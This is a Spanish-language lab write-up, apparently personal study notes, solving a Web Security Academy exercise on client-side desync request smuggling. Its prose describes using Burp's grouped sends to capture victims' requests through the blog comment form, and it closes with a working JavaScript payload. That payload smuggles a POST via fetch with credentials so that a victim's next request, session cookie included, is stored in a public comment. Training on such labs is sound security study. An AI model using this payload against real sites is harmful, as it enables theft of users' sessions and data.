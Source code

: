 En esta clase localizamos un gadget útil dentro de la aplicación: el sistema de comentarios en los posts. Utilizamos el vector de desincronización previamente identificado para inyectar una petición parcial dentro del cuerpo de un comentario.

Al recargar el post, comprobamos que la petición ha sido reflejada parcialmente en el contenido visible, lo que demuestra que podemos capturar y almacenar partes de peticiones arbitrarias que luego serán accesibles públicamente.

Solucion
aqui mandamos una tipica consulta pero vemos que no da resultado como seria en una RS (Request Smuggling)
la diferencia en este payload es que si vemos en la parte de arriba podemos ver que le metimos 100 en CL pero abajo no se ve reflejado
![Pasted_image_20250812205026.png](/Imagenes/Pasted_image_20250812205026.png)
asi que para que se puede ejecutar una consulta se deberia aplicar en diferentes sockets asi que en esta caso vamos a intecerpar el apartado /en que era el redirect
![Pasted_image_20250812205255.png](/Imagenes/Pasted_image_20250812205255.png)
y como sabemos que estamos en un CSD pues normalmente si nosotro le dabamos send en el Attacker Request esperamos un error 400 pero aqui no se refleja
![Pasted_image_20250812205517.png](/Imagenes/Pasted_image_20250812205517.png)
asi que nosotros necesitamos hacer una coneccion TCP para que se puede ejecutar el payload para ello vamos a crear un grupo en el BS y lo configuramos a send group
![Pasted_image_20250812205721.png](/Imagenes/Pasted_image_20250812205721.png)
Cuando le damos a send aqui si podemos ver el error
![Pasted_image_20250812205817.png](/Imagenes/Pasted_image_20250812205817.png)
entonces para complementar el ataque vamos a interceptar un post y vamos a configurarlo en el BS
![Pasted_image_20250812210134.png](/Imagenes/Pasted_image_20250812210134.png)
lo configuramos tal que quede asi
![Pasted_image_20250812210301.png](/Imagenes/Pasted_image_20250812210301.png)
Entonces todo esto no lo podemos copiar y pasarlo al attacker
![Pasted_image_20250812210545.png](/Imagenes/Pasted_image_20250812210545.png)
ahora vamos a configurarlo
1.- (el comment lo pasamos hasta el final)
2.- (configurar la longitud real para no tener problemas)
![Pasted_image_20250812210757.png](/Imagenes/Pasted_image_20250812210757.png)
tal que quedaria asi
![Pasted_image_20250812211038.png](/Imagenes/Pasted_image_20250812211038.png)
donde lo vemos reflejado si nos vamos a la pagina donde esta el post lo veremos reflejado
![Pasted_image_20250812211123.png](/Imagenes/Pasted_image_20250812211123.png)
pero como podemos hacer para que la victima no vea este tipo de post donde muestre la infomacion para eso nos vamos a montar un script en JS donde me automatize esto

payload (
<script>
    smuggledRequest = [
      "POST /en/post/comment HTTP/1.1",
      "Host: 0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net",
      "Cookie: session=10C0ZiNzSfrPlheSkA0EmCPoX1tgGb9H",
      "Content-Type: application/x-www-form-urlencoded",
      "Content-Length: 800",
      "",
"csrf=AYsRFi6GRECmO9Nfp6MdsDsoe4ew7FRQ&postId=6&name=test&email=test@test.com&website=https://callate.com&comment=test"
    ].join("\r\n")

    fetch("http://0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net", {
      method: "POST",
      body: smuggledRequest,
      credentials: 'include',
      mode: "no-cors"
    });
</script>
)